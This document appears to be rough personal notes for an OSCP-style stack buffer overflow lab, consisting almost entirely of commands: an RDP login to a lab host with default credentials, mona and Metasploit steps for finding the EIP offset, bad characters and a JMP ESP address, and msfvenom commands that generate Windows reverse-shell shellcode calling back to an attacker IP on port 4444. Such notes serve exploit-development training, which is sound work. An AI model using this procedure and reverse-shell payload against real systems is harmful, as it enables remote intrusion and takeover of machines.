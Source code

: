 ```
xfreerdp /u:admin /p:password /cert:ignore /v:10.10.83.194 /workarea  
```

```
!mona config -set workingfolder c:\mona\%p
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 1500
!mona findmsp -distance 1500
EIP: 1034
#Update EIP to all scripts

!mona bytearray -b "\x00"

1. Send data with NULL
2. Take ESP OUT and put into COMPARE. 

## Don't forget extending the windows to right on BadChars. 
# !mona compare -f C:\mona\oscp\bytearray.bin -a 01A0FA30
!mona compare -f C:\mona\oscp\bytearray.bin -a 000000

#python bytearray.py
# Send updated Removed Bad Char buffer to target
!mona bytearray -b "\x00\x08\x2c\xad"

# Update Offset on Python
"\\x00\\x16\\x2f\\xf4\\xfd"

# Verify with new ESP on Immunity Debugger

!mona jmp -r esp -cpb "\x00\x08\x2c\xad"
!mona bytearray -b "\x00"

JMP ESP: "\xaf\x11\x50\x62"

msfvenom -p windows/shell_reverse_tcp LHOST=10.6.20.231 LPORT=4444 EXITFUNC=thread -b "\x00\x08\x2c\xad" -f py

!mona config -set workingfolder c:\mona\%p

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
!mona findmsp -distance 600!mona bytearray -b "\x00"
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
!mona jmp -r esp -cpb "\x00"
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
!mona config -set workingfolder c:\mona\%p
```
![image](https://user-images.githubusercontent.com/9059079/119589298-85138c80-bda0-11eb-825d-862e4f241a10.png)

![image](https://user-images.githubusercontent.com/9059079/119571250-1d991500-bd7f-11eb-9cb0-ca9bd73dc2f7.png)
